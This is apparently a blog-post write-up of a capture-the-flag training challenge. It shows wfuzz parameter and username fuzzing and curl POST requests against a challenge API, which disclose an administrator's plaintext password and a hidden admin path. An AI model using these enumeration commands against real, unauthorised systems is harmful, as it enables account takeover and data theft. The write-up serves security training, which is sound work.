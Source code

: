 ```yaml
---
layout: post
title: ICC - API 
date: 2022-02-22 15:48 +0200
author: Arcee
tags: challenge api icc
categories: [ICC]
---
```

Challenge of the training platform for ICC. 

## Description: 
We found a nice target where some backend API communication is happening behind the scenes at
http://challenge-01.icsc.cybexer.io:8080.
Sometimes it is possible to extract valuable information by tampering some parameters.
Some dictionary attack may be used against index.php script and it seems that a web proxy is best tool for this job.

**Question**
Can you reverse engineer messages and extract some information from this endpoint?

## Enumeration
Opening the webpage gives an error: "Backend API Error, empty request OR name not set"

The description states that we can tamper with some parameters, so we probably have to add some parameters to the url to do something. We can fuzz to see if there are any parameters we can use.  Probably something to do with name, as the webpage states ' name not set'

First we take a look at GET requests: 
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://challenge-01.icsc.cybexer.io:8080/?FUZZ=test
Total requests: 2588

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                           
=====================================================================

000000015:   200        0 L      4 W        26 Ch       "user"                                            

Total time: 0
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 0
```

This shows that there is indeed a parameter user that we can use! However, when we curl the page with a get request, we get an error:

`curl -X GET -k challenge-01.icsc.cybexer.io:8080/?user=test`  
Gives:  
`Request method not allowed   `

So we continue and try a POST request:
`curl -X POST -k challenge-01.icsc.cybexer.io:8080/?user=test`  
Gives:  
`No user found with name: test `

So we need to fuzz for what names actually give another output.
`wfuzz -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -X POST --hs 'No user found'  http://challenge-01.icsc.cybexer.io:8080/?user=FUZZ`  
--> We now use the usernames list as we want to look for usernames. 

This gives us: 
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://challenge-01.icsc.cybexer.io:8080/?user=FUZZ
Total requests: 17

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                           
=====================================================================

000000009:   200        0 L      6 W        117 Ch      "administrator"                                   

Total time: 0
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 0
```

So we have a user called administrator. We check what the page now shows:

`curl -X POST -k challenge-01.icsc.cybexer.io:8080/?user=administrator`

Gives:  
```Username: administrator<br>Password: terminator008<br>UserID:   1<br>IP:        127.0.0.1<br>Documentroot:  /virtualadmin<br> ```

So we have a user **administrator** with password **terminator008* which has a document root at **/virtualadmin**. So we check the /virtualadmin location, which gives us an API location. Where we can log in with the credentials. Then it shows us the flag!!

